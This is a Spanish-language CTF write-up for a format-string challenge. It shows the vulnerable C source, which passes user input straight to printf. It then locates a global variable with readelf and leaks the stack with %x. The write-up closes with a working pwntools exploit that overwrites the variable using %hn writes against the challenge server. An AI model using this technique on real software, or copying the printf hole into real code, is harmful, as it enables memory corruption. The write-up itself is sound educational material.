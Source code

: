 #pwn #ctf #format_string

# Reconocimiento

Se nos da un binario y su código fuente:

```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
char buf[1024];
char flag[64];

printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
fflush(stdout);
scanf("%1024s", buf);
printf("Here's your input: ");
printf(buf);
printf("\n");
fflush(stdout);

if (sus == 0x67616c66) {
	printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

	// Read in the flag
	FILE *fd = fopen("flag.txt", "r");
	fgets(flag, 64, fd);
	
	printf("%s", flag);
		fflush(stdout);
}
else {
	printf("sus = 0x%x\n", sus);
	printf("You can do better!\n");
	fflush(stdout);
}

	return 0;
}
```

Nos damos cuenta que es vulnerable a un [[Format string]]. Lo que debemos hacer es que la variable *sus* valga *`0x67616c66`*. Para ello debemos aprovecharnos de la vulnerabilidad.

# Explotación

Primero debemos ver dónde se guarda la variable *sus*, para ello utilizaremos [[readelf]]:

```bash
readelf -s vuln | grep sus
```
```bash
28: 0000000000404060     4 OBJECT  GLOBAL DEFAULT   25 sus
```

Además debemos ver dónde se guarda nuestro input. Si mandamos una cadena de `%x`:

```bash
./vuln
```
```vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
Here's your input: 402075.0.0.402073.19872a80.7dfecd80.198aa8c8.2.1989fb50.1.0.1.1989f160.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.0.0.1989f160.d.19872198.7dfed1e8.403e18.198d3020.198b0d3e.1.0.
sus = 0x21737573
You can do better!
```

Vemos que a partir de la posición 14 se empieza a repetir el valor *`252e7825`* (`%x`). Con esta información podemos crear un script con [[python]] y [[pwntools]] para resolver el reto:

```python
from pwn import *

binary = './vuln'
elf = ELF(binary)

def start():
    if args.REMOTE:
        return remote('saturn.picoctf.net', 53607)
    else: return process(binary)

# Lo primero es la dirección que tendremos que dividir en dos,
# ya que como tenemos que escribir ese numero de caracteres,
# hacerlo de una requeriria imprimir 404060 carcteres
addr_low = b'\x60\x40\x40\x00\x00\x00\x00\x00'
addr_high  = b'\x62\x40\x40\x00\x00\x00\x00\x00'

# Dividimos también el valor 0x67616c66
out_high = 0x6761
out_low  = 0x6c66

# Como los bytes altos son mayores, deberiamos escribir eso primero,
# ya que %n es acumulativo (imprimimos out_high caracteres y guardamos el valor,
# después los que quedan para out_low y guardamos).
n1 = out_high 
n2 = out_low - n1

# El ataque será algo así:
# %[value]c%[index]$[write_type][padding][address]
# 
# The padding is to align the addresses with the printf arguments (tienen que ser multiplos de 8).

#         first print & write    second print & write   padding    addr # 1    addr # 2
payload = b'%%%dx%%18$hn' % n1 + b'%%%dx%%19$hn' % n2 + b'\00'*7 + addr_high + addr_low
#%d -> añade n1 como un valor decimal ; %% -> representacion de %

r = start()

r.recvuntil(b'?\n')

r.sendline(payload)

r.recvline() # This line is going to be thousands of chars
print(r.recvall().decode())
```
> *`hn`* permite escribir de dos en dos bytes

Al ejecutarlo imprimirá la flag!